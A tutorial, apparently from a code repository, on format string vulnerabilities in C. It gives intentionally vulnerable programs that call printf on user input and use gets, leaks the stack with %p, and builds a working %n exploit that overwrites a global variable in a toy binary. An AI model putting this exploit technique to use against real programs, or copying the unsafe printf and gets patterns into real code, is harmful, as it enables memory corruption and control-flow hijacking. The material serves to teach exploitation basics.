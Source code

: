 # Format String Vulnerability 1

Format string vulnerabilities silly bug that is due to the poor coding practice
of the programmer. If a programmer passes an attacker-controlled buffer as an
argument to a `printf` call (or any format string related function, e.g `sprintf,
fprintf`), attacker can perform write to arbitrary memory address.

To understand what I am talking about, take a look at the below example.

```C
int main(int argc, char** argv) {
    char buffer[100];
    strcpy(buffer, argv[1]);
    printf(buffer);
    return 0;
}
```

`printf` takes variable number of
arguments and the `format specifier` identifies how many arguments it **should**
access and what kind of data is stored onto that. To read how it takes variable
number of argument refer
[this](https://www.tutorialspoint.com/cprogramming/c_variable_arguments.htm).
And to read more about `format specifiers` refer
[this](http://www.cplusplus.com/reference/cstdio/printf/).

In the above-mentioned program if you pass **sane** input like your name. e.g
`./string0 Rohit`. You will get your name on the output.  But attacker do not
always thinks of passing the sane output to the program.  Suppose you passed, lets
say `%x` to the program, since attackers knows that first argument to the printf must
be format specifier, if it is not supplied internally( that is through the
program), a malformed format specifier may list that out the content on the
stack.

:astonished: Attacker can see the content of STACK.

### See Stack's Content
Lets see that in action. Try doing this:
```bash
$ ./string0 "%p %p %p %p %p"
0xffffd7c9 0x64 0xf0b5ff 0xffffd58e 0x1
$
```
Hey what just happened? Attacker's mind  :facepunch: you in the face.
`%p` is used to print the content of the memory in hexadecimal and that just
happened. Attacker fooled **printf** to print the content of memory by not giving
sane input but `format specifier` as input. This is termed as format string
vulnerability.

### What else we can do?
It This is not just limited to displaying the content in memory. This vulnerability
allows the attacker to perform writes to arbitrary memory.
To understand how the writes are actually happening, we need to understand the
concept of `%n`. This format specifier allows the printf to write to memory
location specified by one of its argument.
e.g
```C
printf("rohit%n", &i);
printf("%d", i);   //outputs to 5 == len(rohit)
```
In brief `%n` writes the number of characters printed so far get saved to `i`.

Now we have two things in mind:
* Copy our own format specifier in printf.
* Write to some memory location onto stack(or some variable).

### Towards actual exploit. :metal:
Lets try to identify after how many 4 bytes memory locations, we are able to get
back to the buffer. So inorder to do it. I will put say `AAAA` in the beginning
of the exploit string. e.g
``./string1 'AAAA %p %p %p %p %p %p %p %p %p %p %p %p'``
Output
`AAAA 0xffffd7af 0x64 0xf0b5ff 0xffffd57e 0x1 0xc2 0xffffd674 0xffffd57e
0xffffd680 0x41414141 0x20702520 0x25207025`
Notice, `0x41414141` third to last. This is nothing but the hex of ASCII('A').
This means we reached the buffer after 9 %p and 10th one is buffer location.
You may need to do several hit and trials in order to identify starting location
of buffer and it might not be same as mine (10th location).

```C
#include<stdio.h>
#include<string.h>
#include<stdio.h>

int myvar;

int main(int argc, char** argv)
{
    char buffer[100];
    gets(buffer);
    printf(buffer);
    if(myvar)
        printf("Cool you changed it .. :) ");
    return 0;
}
```
Now I will demonstrate Change of control flow using the techniques we have just
learned. Consider the above mentioned code. Find out the address of the buffer
from the current stack location using format string vuln.
`echo -e 'AAAA %p %p %p %p %p %p %p %p %p %p %p %p' | ./string1`
Output:
`AAAA 0x1 0xf7ffd918 0xf0b5ff 0xffffd59e 0x1 0xc2 0xffffd694 0xffffd59e
0xffffd69c 0x41414141 0x20702520 0x25207025`.
Hey its again the same the 10th location. :metal:

Now consider,
`echo -e 'AAAA %p %p %p %p %p %p %p %p %p %n' | ./string1`
This above command will write `len(AAAA %p %p %p %p %p %p %p %p %p ) --> 32` to
to the memory pointed by the 10th argument. But the 10th argument is nothing but
the `0x41414141` so it will try to write onto the memory address pointed by
`0x41414141` the value 32. Since it could be **read-only** memory, so you might
get the `Segmentation Fault`. What about putting some sensible address onto the
buffer instead of `0x41414141`. If we do so, then %n will write to that memory
pointed by that location.
Why not getting the address of `myvar`. Since it is global, we can get the
address of globals before the running the program.
We will use ,
`objdump -t ./string1 | grep myvar`
`0804a028 g     O .bss    00000004              myvar`
The first data column contains the address for the `myvar`.


**Crafting the exploit** to change the variable content then change the control
flow.
`` echo -e `python -c "import struct; print struct.pack('<I',0x0804a028)"`"%p %p
%p %p %p %p %p %p %p %n" | ./string1``
Output:
``(0x1 0xf7ffd918 0xf0b5ff 0xffffd59e 0x1 0xc2 0xffffd694 0xffffd59e 0xffffd69c
Cool you changed it .. :)``

:cool: We have exploited the binary.

#### What we have learnt with this?
Format string vulnerability allows to write to arbitrary location in programs
memory.
